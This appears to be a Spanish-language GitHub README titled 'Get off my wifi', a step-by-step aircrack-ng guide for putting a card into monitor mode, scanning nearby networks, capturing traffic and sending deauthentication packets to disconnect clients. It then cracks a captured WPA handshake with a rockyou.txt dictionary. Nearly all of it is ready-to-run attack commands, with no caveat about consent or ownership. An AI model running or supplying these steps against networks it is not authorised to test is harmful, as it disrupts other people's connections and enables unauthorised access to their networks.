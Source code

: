 # Get off my wifi
+ Una serie de notas para sacar a los usuarios no autorizados de tu red WIFI.
+ A su vez muestra cómo hacer un ataque de diccionario a una red WIFI con aircrack-ng

# Teoria 


# Comandos aircrack-ng
Los siguientes comandos permiten:
+ Deautenticar a usuarios de la red WIFI
	+ Pasos 1-4, 6
+ Generar un ataque de diccionario para obtener la contraseña WIFI}
	+ Pasos 1-7
+ Salir del modo monitor
	+ Paso 8

## 1) Mostrar las interfaces
Opción principal
```
sudo airmon-ng
```

Otra opción
```
iwconfig
```

## 2) Deshabilitar cualquier proceso que pueda interferir con la captura de paquetes
```
sudo airmon-ng check kill
```

## 3) Habilitar el modo monitor/promiscuo de nuestra tarjeta de red
Método airmon
```
sudo airmon-ng start wlan0
```
* Cambiamos `wlan0` por el nombre de nuestra interfaz que se ha arrojado `sudo airmon-ng`

Otra opción
```
iw dev <interface> set monitor none
```

Otra opción
```
ifconfig <interface> down
iw dev <interface> set monitor none
ifconfig <interface> up
```


##### Si volvemos a correr el paso uno podremos ver que nuestra interfaz de red ahora se encuentra en modo monitor bajo el nombre de `wlan0mon` ó `wlan0`

## 4) Listar las redes que hay a nuestro alrederor
```
sudo airodump-ng wlan0mon
```
* wlan0mon = nombre_de_la_interfaz

Esto nos arrojará una pantalla con la siguiente información:
+ **BSSID:** Mac Address de nuestro router (punto de acceso)
+ **PWR:** Nivel de señal 
+ **Beacons:** Número de “paquetes anucio” o beacons enviadas por el AP. 
	+ Cada punto de acceso envia alrededor de diez beacons por segundo cuando el rate o velocidad es de 1M, (la más baja) de tal forma que se pueden recibir desde muy lejos.
+ **#Data:** Número de paquetes de datos capturados.
	+ (si tiene clave WEP, equivale tambien al número de IVs), incluyendo paquetes de datos broadcast (dirigidos a todos los clientes).
+ **#/s:** Número de paquetes de datos capturados por segundo calculando la media de los últimos 10 segundos.
+ **CH:** Canal
+ **MB:** Velocidad máxima soportada por el AP. 
	+ Si MB = 11, es 802.11b, 
	+ Si MB = 22es 802.11b+ 
	+ Y velocidades mayores son 802.11g. 
	+ El punto (despues del 54) indica que esa red soporta un preámbulo corto o “short preamble”.
+ **ENC:** Algoritmo de encriptación que se usa. 
	+ OPN = no existe encriptación (abierta)
	+ “WEP?” = WEP u otra (no se han capturado suficientes paquetes de datos para saber si es WEP o WPA/WPA2), 
	+ WEP (sin el interrogante) indica WEP estática o dinámica, 
	+ WPA o WPA2 en el caso de que se use TKIP o CCMP.
+ **CIPHER:** Detector cipher. Puede ser CCMP, WRAP, TKIP, WEP, WEP40, o WEP104.
+ **AUTH:** El protocolo de autenticación usado. Puede ser: 
	+ MGT
	+ PSK (clave precompartida)
	+ OPN (abierta).
+ **ESSID**	Tambien llamado “SSID”
	+ Puede estar en blanco si la ocultación del SSID está activada en el AP. 
	+ En este caso, airodump-ng intentará averiguar el SSID analizando paquetes “probe responses” y “association requests” (son paquetes enviados desde un cliente al AP).

Justo debajo

+ **STATION:** Dirección MAC de cada cliente asociado. 
+ **Lost:** El número de paquetes perdidos en los últimos 10 segundos.
+ **Frames:** El número de paquetes de datos enviados por el cliente.
+ **Probes:** Los ESSIDs a los cuales ha intentado conectarse el cliente.	

## 5) Capturamos el tráfico de la red

```
sudo airodump-ng -c 1 --bssid 36:0A:98:80:97:C3 --write airodump wlan0mon
```
+ **-c** canal
+ **--bssid** bssid
+ **--write** nombre_de_archivo

## 6) Ataque deauth

Ahora abrimos una nueva terminal e iniciamos el ataque deauth para desconectar todos los clientes conectados a la red. Ésto le ayudará en la captura del handshake. Ingrese el comando:

#### Deautenticación a todos los clientes de un WIFI

```
sudo aireplay-ng -0 10 -a 36:0A:98:80:97:C3 wlan0mon
```

+ **-0** Se utiliza para el ataque deauth
+ **10** Es el número de paquetes deauth para ser enviados
+ **-a** Es la dirección MAC de la red WiFi objetivo

#### Deautenticación a solamente un cliente de un WIFI

```
sudo aireplay-ng -0 10 -a 36:00:98:00:97:C3 -c 00:0A:FF:5F:FF:00 wlan0mon
```

+ **-0** Se utiliza para el ataque deauth
+ **10** Es el número de paquetes deauth para ser enviados
+ **-a** Es la dirección MAC de la red WiFi objetivo
+ **-e** Es el ESSID de la red objetivo, es decir, su nombre


Después de lanzar el ataque deauth y conseguir el HANDSHAKE WPA, pulse Ctrl+C .

## 7) Hacer fuerza bruta para averiguar el password

```
sudo aircrack-ng airodump-01.cap -w rockyou.txt
```

## 8) Quitar el modo monitor y volver a utilizar nuestro WIFI
Opción 1
```
# Detenemos el modo monitor
sudo airmon-ng stop wlan0mon

# Levantamos nuestra interfaz
sudo ifconfig wlan0 up

# Inciamos el servicio de red
sudo systemctl start NetworkManager
```

Opción 2
```
ifconfig <interfaz> down
iwconfig <interfaz> mode managed
ifconfig <interfaz> up
```

# Información complementaria
+ <a href="https://medium.com/@Packt_Pub/the-deauthentication-attack-7872c916ed2a" target="_blank">the-deauthentication-attack</a>
+ <a href="https://hackernoon.com/forcing-a-device-to-disconnect-from-wifi-using-a-deauthentication-attack-f664b9940142" target="_blank">Forcing a device to disconnect from WiFi using a deauthentication attack</a>
+ <a href="https://www.aircrack-ng.org/doku.php?id=deauthentication" target="_blank">Aircrack Deauthentication</a>
+ <a href="https://github.com/spacehuhn/esp8266_deauther" target="_blank">esp8266_deauther</a>
+ <a href="https://www.atareao.es/como/procesos-en-segundo-plano-en-linux/" target="_blank">PROCESOS EN SEGUNDO PLANO EN LINUX</a>